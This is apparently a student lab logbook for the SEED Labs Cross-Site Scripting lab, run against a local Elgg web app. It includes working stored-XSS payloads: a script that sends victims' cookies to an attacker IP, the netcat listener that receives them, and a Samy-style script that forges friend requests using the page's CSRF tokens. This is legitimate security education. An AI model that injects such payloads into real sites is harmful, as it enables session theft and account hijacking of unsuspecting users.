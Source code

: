 # Week 10: SEED Labs – Cross-Site Scripting (XSS) Attack Lab

## Lab Environment Setup

> To setup the lab environment we ran a docker container with a MySQL database and another one with the web app Elgg that we would use in this lab.
>
> We also used the "HTTP Header Live" add-on to inspect HTTP Headers on Firefox.
> ![http](../docs/logbook10/httpheaderlive.png)

## Task 1: Posting a Malicious Message to Display an Alert Window

> We first logged in as alice with the credentials that were given to us (user:alice | pass:seedalice).
> Then we went to our profile, clicked on Edit profile and selected the HTML format option and changed alice "About me" section to:

```javascript
<script>alert(’XSS’);</script>
```

> ![xss](../docs/logbook10/changedescription.png)
>
> Then if anyone enter alice profile an alert would appear in their browser:
> ![xss](../docs/logbook10/xssattack.png)

## Task 2: Posting a Malicious Message to Display Cookies

> In this task we needed to replace 'XSS' in the alert to the page cookies.
> This was performed by changing with HTML the "About me" section of alice to :

```javascript
<script>alert(document.cookie);</script>
```

> ![cookies](../docs/logbook10/changedescriptioncookie.png)
>
> Then if anyone enters alice profile an alert would appear in their browser with their own cookies:
> ![cookies](../docs/logbook10/cookieattack.png)

## Task 3: Stealing Cookies from the Victim’s Machine

> The previous attack was not very useful because only the user would see their own cookies, but in this task the objective was to send the cookies user through an HTTP request so that we could get those cookies that are very valuable because they allow us to make XSS and CRSF attacks.
>
> To achieve this we changed with HTML the "About me" section of alice to :

```javascript
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

> ![stealcookies](../docs/logbook10/changedescriptionstealcookie.png)
>
> Then if anyone enters alice profile then the image was gonna be retrieved from the src that we wrote so that they would send a GET request to that IP with the cookies appended.
>
> To test this we logged in as charlie and entered in alice profile:
> ![charlie](../docs/logbook10/seealiceprofileascharlie.png)
>
> Then the attacker, in this case alice, would use netcat to listen for the connection on the port 5555 using :

```bash
nc -lknv 5555
```

> ![nc](../docs/logbook10/stealcookiecharlie.png)
> And alice would have access to charlie's cookies.

## Task 4: Becoming the Victim’s Friend

> In this task we would recreate the attack Samy did to MySpace in 2005. We need to create a worm that adds Samy as a friend to any other user that visits samy's profile.
>
> First we needed to understand how friend requests were made in Elgg so we logged in as alice and added samy as a friend and used "HTTP Header Live" on Firefox to see the request:

```text
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669737910&__elgg_token=Apj7qy_kXRRwx23Uc07PmA&__elgg_ts=1669737910&__elgg_token=Apj7qy_kXRRwx23Uc07PmA
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
Cookie: Elgg=1nova5e38pbrm3j5ofi3oq50r2

GET: HTTP/1.1 200 OK
Date: Tue, 29 Nov 2022 16:06:44 GMT
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: must-revalidate, no-cache, no-store, private
expires: Thu, 19 Nov 1981 08:52:00 GMT
pragma: no-cache
x-content-type-options: nosniff
Vary: User-Agent
Content-Length: 388
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8
---------------------
```

> We analyzed this request and figured that it is a HTTP GET request for :
>
> * Path: /action/friends/add
> * Query:
>   * friend=user_id
>   * elgg_ts=timestamp
>   * elgg_token=token
>
> We noticed also that the elgg_ts and elgg_token were repeated and that samy user_id was 59.
>
> With this information we logged in as samy and changed the "About me" section:

```javascript
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;
var sendurl2 = sendurl + ts +token;
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl2, true);
Ajax.send();
}
</script>
```

> We needed to put the repetition of ts and token on another sendurl because if we put ts+token+ts+token it would become ts+ts+token+token in the HTTP request.
>
> ![samy](../docs/logbook10/changesamydescription.png)
>
> Then we logged in as charlie and verified that we had no friends.
> ![charlie](../docs/logbook10/charlienofriends.png)
> Then we went to samy's profile page and as soon as we entered the add friend button was already set as remove friend indicating that we were already friends with samy even though we didn't made a friend request on behalf of charlie:
> ![charlie2](../docs/logbook10/samaddedasfriend.png)
> ![charlie3](../docs/logbook10/charlieonefriend.png)
>
> * Question 1: Line 1 and 2 are needed to perform a successful friend request because the HTTP request requires the timestamps and the user's token which is unique so we need to dinamically get this information.
> * Question 2: No it wouldn't be possible to perform this attacks because if we are in Editor mode the symbols like > and < would become &gt and &lt which would mean that the browser would not interpret that as valid html code to run the javascript therefore we wouldn´t be able to perform all these attacks.
